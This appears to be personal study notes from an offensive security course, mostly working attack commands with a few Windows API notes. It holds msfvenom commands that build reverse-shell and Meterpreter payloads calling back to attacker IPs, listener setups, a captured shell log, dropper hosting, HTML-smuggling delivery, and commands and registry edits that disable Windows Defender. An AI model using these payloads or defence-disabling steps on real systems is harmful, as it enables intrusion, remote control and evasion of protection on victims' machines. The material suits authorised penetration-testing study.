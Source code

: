 password: @Hide01

# generating payloads from meterpreter

```s
    msfvenom -p windows/x64/meterpreter/reverse_https -a x64 LHOST=10.10.6.12 LPORT=4443 EXITFUNC=thread -f ps1.
```
for starting reverse handler in msfconsole use
```s
    use exploit/multi/handler
    set payload windows/x64/meterpereter/reverse_https
    set lhost
    set lport
    exploit
```
To send any session to background use bg
  list sessions using 'sessions'
  start interacting with a session using session number 'sessions 1'

# chapter 3 Windows concepts

1. WOW  - Windows on windows. Most windows mahine sise the 64 bit version of the Windows Operating system. However many applications are still 32 bit.

Ntdll.dll, Wow64.dll, Wow64Win.dll and Wow64Cpu.dll - used for this emuation.

2. WIn32 API -  various applications in a variety of programming languages ranging from assembly to C# but many of those make use of the windows provided built in programming interfaces.

Many  of  the  Win32  APIs  are  documented  by  Microsoft.  One  simple  example  is  the 
GetUserNameA33 API exported by Advapi32.dll which retrieves the name of the user executing the 
function. 

```
BOOL GetUserNameA( 
  LPSTR   lpBuffer, 
  LPDWORD pcbBuffer 
);
```

In this example, the API requires two arguments. The first is an output buffer of type LPSTR which 
is the Microsoft term for a character array. The second argument is a pointer to a DWORD which 
is a 32-bit unsigned integer. The return value from the API is a boolean.

Listing 2 above shows the prototype for GetUserNameA, where the suffix “A” indicates the ASCII 
version of the API. Listing 3 below shows the prototype for GetUserNameW, in which the “W” 
suffix (for “wide char”) indicates Unicode: 

```
BOOL GetUserNameW( 
  LPWSTR  lpBuffer, 
  LPDWORD pcbBuffer 
); 
```
3.  Windows Registry : Windows Registry to support local and global variables. 

4. page 31/704

Staged vs Non staged payloads

windows/shell/reverse_tcp is a simple non staged reverse TCP shell payload
Staged payloads contain a minimal amoutn of code thta tperforms a callback then retrieves any remaining acode and executes it in th etargets memory.

the differenece in the delimiters
s
windows/x64/meterpreter_reverse_https - meterpreter shell - full payload
windows/x64/meterpreter/reverse_https - Reflective dll staged - staged payload

5. Building a dropper

sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=4444 -f ee -o /var/ww/html/shell.exe

sudo service apache2 start

sudo nc -lnvp 4444 to start a reverse shell

6. Creating a staged dropper

So that the size is less.

sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.6.10 LPORT=4444 -f exe -o /var/www/html/msfnonstaged.exe

```
kali@kali:~/cyber/pen300$ sudo nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.6.10] from (UNKNOWN) [10.10.136.133] 53944
��ao��H▒[�5x���h�5��H�����h�*Q&�,�+�0�/�$�#�(�'�
�       ����=<5/
F
▒
#�whoami
```

- creating a listener
```
sudo msfconsole -q

msf5 > use multi/handler

set payload windows/x64/meterpreter/reverse_https

set lhost 10.10.6.10

set lport 4444

exploit
```

for nonstaged payload you can get reverse connect on nc -lnvp 4444
for staged payloads we can get reverse shell on msfconsole

### Important commands for DIDR

listing processes
>tasklist | findstr pid
>taskkill /f /pid 123

netstat 
>netstat -aon | findstr "4444"
  -TCP    10.10.136.133:59795    10.10.6.10:4444        SYN_SENT        9972

Removing the entire directory
>RMDIR /s twint 

### HTML Smuggling

- attackers may use discreet delivery methods, embedding a link in an emal. using a javascript dropper code in the HTML itseld. we can create a simple hyperlink and set th edownload attribute anchor tag
```html
<html>
  <body>
    <a href="/msfstaged.exe" download="msfstaged.exe> DownloadME </a>
  </body>
</html>
```
However this makes the user manually click on the link. Instead we can make the lnk embedded javascript file.

we will create a Base64 meterpreter.


### HTML smuggling directly

Although this works well, it exposes the filename and extension of the dropper and requires the 
user to manually click on the link. To avoid this we can trigger the download from an embedded 
JavaScript file. This method feeds the file as an octet stream and will download the assembled 
file without user interaction.

### space racoon advice

https://spaceraccoon.dev/offensive-security-experienced-penetration-tester-osep-review-and-exam

# starting and stopping windows defender

https://www.itechtics.com/enable-disable-windows-defender/#:~:text=1%20How%20To%20Disable%20Windows%20Defender%20Using%20Command,again%2C%20run%20the%20following%20command%3A%20sc%20start%20WinDefend

Open command prompt with administrative privileges
Run the following command to disable Windows Defender:
sc stop WinDefend
To enable Windows defender again, run the following command:
sc start WinDefend
Please note that this is a temporary method to stop Windows Defender. The service will return to its original state once the system is restarted. To disable Windows Defender permanently using the command prompt, run the following command:

```
sc config WinDefend start= disabled
sc stop WinDefend

To enable it again on startup, run the following commands:

sc config WinDefend start= auto
sc start WinDefend

If you want to check the current state of the Windows Defender service, run the following command:

sc query WinDefend

Check the STATE variable. It should be in RUNNING state if it is enabled.
```

```
Run PowerShell with administrative privileges (Windows key + X + A)
To disable real-time monitoring for Windows Defender, run the following command:
Set-MpPreference -DisableRealtimeMonitoring $true
To enable real-time monitoring, run the following command:
Set-MpPreference -DisableRealtimeMonitoring $false
```

```
Go to Run –> regedit. This will open the Windows Registry Editor.
Navigate to the following key:
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender
In the right pane, right-click the empty area and create a new DWORD (32-bit) value.

Rename the new item to DisableAntiSpyware
Double-click DisableAntiSpyware and change its value to 1.
Windows Defender will not load after the next computer restart. To enable Windows Defender again, you can either delete the created registry key or simply change its value to 0.


```


